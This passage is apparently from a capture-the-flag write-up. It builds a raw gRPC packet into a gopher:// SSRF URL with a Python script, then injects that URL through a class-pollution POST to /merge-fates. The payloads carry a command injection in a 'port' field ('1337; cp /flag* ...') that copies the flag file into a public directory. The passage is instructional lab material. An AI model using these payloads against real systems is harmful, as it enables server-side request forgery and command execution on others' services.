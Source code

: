 After capturing the packets send by `grpcurl` we can take the data from each GRPC section and join them into one packet using the following script taken from [https://bkubiak.github.io/grpc-raw-requests/](https://bkubiak.github.io/grpc-raw-requests/).

```python
def grpc_packet():
	# sniffed using tcpdump https://bkubiak.github.io/grpc-raw-requests/
	# grpcurl -plaintext -proto live_data.proto -d '{"ip": "127.0.0.1", "port": "1337; cp /flag* /app/eldoria_api/public/flag.txt"}' localhost:50051 live.LiveDataService/CheckHealth
	magic = "505249202a20485454502f322e300d0a0d0a534d0d0a0d0a"
	settings = "000000040100000000"
	headers = "00007c010400000001838645986283772af9cddcb7c691ee2d9dcc42b17a7293ae328e84cf418ba0e41d139d09b8d800d87f5f8b1d75d0620d263d4c4d65647aa59acac96d9431217bad1da6a2453faa8ea772d8831ea51054ff6a4d65645a63b015db75707f40027465864d833505b11f408e9acac8b0c842d6958b510f21aa9b839bd9ab"
	data = "000042000100000001000000003d0a093132372e302e302e311230313333373b206370202f666c61672a202f6170702f656c646f7269615f6170692f7075626c69632f666c61672e747874"

	packet = magic + settings + headers + data

	encoded_packet = ""
	for i in range(int(len(packet) / 2)):
		encoded_packet += "%" + packet[2*i:2*(i+1)]

	return f"gopher://127.0.0.1:50051/_{encoded_packet}"

print(grpc_packet())
```

Running it will produce a URL like the following:

```
gopher://127.0.0.1:50051/_%50%52%49%20%2a%20%48%54%54%50%2f%32%2e%30%0d%0a%0d%0a%53%4d%0d%0a%0d%0a%00%00%00%04%01%00%00%00%00%00%00%7c%01%04%00%00%00%01%83%86%45%98%62%83%77%2a%f9%cd%dc%b7%c6%91%ee%2d%9d%cc%42%b1%7a%72%93%ae%32%8e%84%cf%41%8b%a0%e4%1d%13%9d%09%b8%d8%00%d8%7f%5f%8b%1d%75%d0%62%0d%26%3d%4c%4d%65%64%7a%a5%9a%ca%c9%6d%94%31%21%7b%ad%1d%a6%a2%45%3f%aa%8e%a7%72%d8%83%1e%a5%10%54%ff%6a%4d%65%64%5a%63%b0%15%db%75%70%7f%40%02%74%65%86%4d%83%35%05%b1%1f%40%8e%9a%ca%c8%b0%c8%42%d6%95%8b%51%0f%21%aa%9b%83%9b%d9%ab%00%00%42%00%01%00%00%00%01%00%00%00%00%3d%0a%09%31%32%37%2e%30%2e%30%2e%31%12%30%31%33%33%37%3b%20%63%70%20%2f%66%6c%61%67%2a%20%2f%61%70%70%2f%65%6c%64%6f%72%69%61%5f%61%70%69%2f%70%75%62%6c%69%63%2f%66%6c%61%67%2e%74%78%74
```

## Exploit Overview

1. Pollute `Adventurer.realm_url`

    POST `/merge-fates` with: 

    ```json
    {
    "class": {
        "superclass": {
        "realm_url": "gopher://127.0.0.1:50051/_%50%52%49%20%2a%20%48%54%54%50%2f%32%2e%30%0d%0a%0d%0a%53%4d%0d%0a%0d%0a%00%00%00%04%01%00%00%00%00%00%00%7c%01%04%00%00%00%01%83%86%45%98%62%83%77%2a%f9%cd%dc%b7%c6%91%ee%2d%9d%cc%42%b1%7a%72%93%ae%32%8e%84%cf%41%8b%a0%e4%1d%13%9d%09%b8%d8%00%d8%7f%5f%8b%1d%75%d0%62%0d%26%3d%4c%4d%65%64%7a%a5%9a%ca%c9%6d%94%31%21%7b%ad%1d%a6%a2%45%3f%aa%8e%a7%72%d8%83%1e%a5%10%54%ff%6a%4d%65%64%5a%63%b0%15%db%75%70%7f%40%02%74%65%86%4d%83%35%05%b1%1f%40%8e%9a%ca%c8%b0%c8%42%d6%95%8b%51%0f%21%aa%9b%83%9b%d9%ab%00%00%42%00%01%00%00%00%01%00%00%00%00%3d%0a%09%31%32%37%2e%30%2e%30%2e%31%12%30%31%33%33%37%3b%20%63%70%20%2f%66%6c%61%67%2a%20%2f%61%70%70%2f%65%6c%64%6f%72%69%61%5f%61%70%69%2f%70%75%62%6c%69%63%2f%66%6c%61%67%2e%74%78%74"
        }
    }
    }
    ```
